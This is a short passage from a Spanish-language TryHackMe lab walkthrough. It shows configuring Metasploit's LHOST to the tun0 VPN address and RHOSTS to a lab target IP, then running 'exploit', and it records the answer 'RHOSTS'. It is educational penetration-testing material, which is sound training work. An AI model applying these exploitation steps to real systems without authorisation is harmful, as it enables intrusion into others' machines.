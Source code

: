 **Respuesta: RHOSTS**

## g) Primero, verifiquemos que la opción LHOST esté configurada en nuestra IP tun0 (que se puede encontrar en la página [de acceso](https://tryhackme.com/access) ). Una vez hecho esto, configuremos esa última opción en nuestra IP de destino. Ahora que tenemos todo listo, ejecutemos nuestro exploit usando el comando `exploit`

La ip de LHOST no coincide con la ip de tun 0.

![](IMG/Pasted%20image%2020250228031108.png)

La cambiamos usando:

```
set LHOST 10.8.16.0
```

![](IMG/Pasted%20image%2020250228031209.png)

Verificamos.

![](IMG/Pasted%20image%2020250228031251.png)

Configuramos RHOSTS:

```
set RHOSTS 10.10.252.236
```
